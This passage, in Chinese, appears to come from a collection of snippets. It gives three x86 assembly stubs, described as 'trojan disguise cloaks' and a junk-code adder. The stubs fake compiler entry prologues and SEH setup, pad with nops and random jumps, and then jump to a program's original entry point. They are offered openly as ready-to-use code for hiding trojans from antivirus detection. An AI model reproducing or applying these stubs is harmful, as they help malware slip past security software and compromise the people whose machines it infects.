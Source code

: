 ************************************************************************
7.伪装木马彩衣(无限复活袍)代码：
PUSH EBP  
MOV EBP,ESP  
PUSH -1  
push 415448   -\___
PUSH 4021A8   -/   在这段代码中类似这样的操作数可以乱填  
MOV EAX,DWORD PTR FS:[0]  
PUSH EAX  
MOV DWORD PTR FS:[0],ESP  
ADD ESP,-6C  
PUSH EBX  
PUSH ESI  
PUSH EDI  
ADD BYTE PTR DS:[EAX],AL   /这条指令可以不要!
jo 原入口地址
jno 原入口地址
call 下一地址

************************************************************************
8.伪装木马彩衣(虾米披风)代码：
push ebp
nop
nop
mov ebp,esp
inc ecx
nop
push edx
nop
nop
pop edx
nop
pop ebp
inc ecx
loop somewhere /跳转到下面那段代码地址去！

someshere:
nop   /"胡乱"跳转的开始...
jmp 下一个jmp的地址   /在附近随意跳
jmp ...   /...
jmp 原入口的地址   /跳到原始oep

************************************************************************
9.伪装花花添加器(神话)代码：-----------根据C++改
nop
nop
nop
mov ebp,esp
push -1
push 111111
push 222222
mov eax,dword ptr fs:[0]
push eax
mov dword ptr fs:[0],esp
pop eax
mov dword ptr fs:[0],eax
pop eax
pop eax
pop eax
pop eax
mov ebp,eax
mov eax,原入口地址
push eax
retn
